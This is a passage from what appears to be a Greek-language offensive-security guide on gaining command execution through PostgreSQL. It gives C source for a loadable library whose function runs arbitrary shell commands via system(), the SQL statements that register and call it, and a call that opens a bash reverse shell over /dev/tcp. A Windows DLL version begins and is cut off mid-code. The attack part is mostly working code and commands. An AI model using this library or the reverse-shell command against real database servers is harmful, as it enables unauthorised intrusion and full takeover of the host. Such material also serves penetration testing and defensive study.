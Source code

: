 #### Μεταγλωττίστε τη βιβλιοθήκη

Αποκτήστε την έκδοση του PostgreSQL με:
```sql
SELECT version();
PostgreSQL 9.6.3 on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18) 6.3.0 20170516, 64-bit
```
Για συμβατότητα, είναι απαραίτητο οι κύριες εκδόσεις να ευθυγραμμίζονται. Επομένως, η σύνθεση μιας βιβλιοθήκης με οποιαδήποτε έκδοση εντός της σειράς 9.6.x θα πρέπει να διασφαλίσει επιτυχημένη ενσωμάτωση.

Για να εγκαταστήσετε αυτή την έκδοση στο σύστημά σας:
```bash
apt install postgresql postgresql-server-dev-9.6
```
Και να συντάξετε τη βιβλιοθήκη:
```c
//gcc -I$(pg_config --includedir-server) -shared -fPIC -o pg_exec.so pg_exec.c
#include <string.h>
#include "postgres.h"
#include "fmgr.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

PG_FUNCTION_INFO_V1(pg_exec);
Datum pg_exec(PG_FUNCTION_ARGS) {
char* command = PG_GETARG_CSTRING(0);
PG_RETURN_INT32(system(command));
}
```
Στη συνέχεια, ανεβάστε τη συμπιεσμένη βιβλιοθήκη και εκτελέστε εντολές με:
```bash
CREATE FUNCTION sys(cstring) RETURNS int AS '/tmp/pg_exec.so', 'pg_exec' LANGUAGE C STRICT;
SELECT sys('bash -c "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"');
#Notice the double single quotes are needed to scape the qoutes
```
Μπορείτε να βρείτε αυτή τη **βιβλιοθήκη προετοιμασμένη** για πολλές διαφορετικές εκδόσεις PostgreSQL και μπορείτε ακόμη να **αυτοματοποιήσετε αυτή τη διαδικασία** (αν έχετε πρόσβαση στο PostgreSQL) με:

{% embed url="https://github.com/Dionach/pgexec" %}

### RCE σε Windows

Η παρακάτω DLL δέχεται ως είσοδο το **όνομα του δυαδικού** και τον **αριθμό** των **φορών** που θέλετε να το εκτελέσετε και το εκτελεί:
```c
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include "utils/builtins.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum pgsql_exec(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(pgsql_exec);

/* this function launches the executable passed in as the first parameter
in a FOR loop bound by the second parameter that is also passed*/
```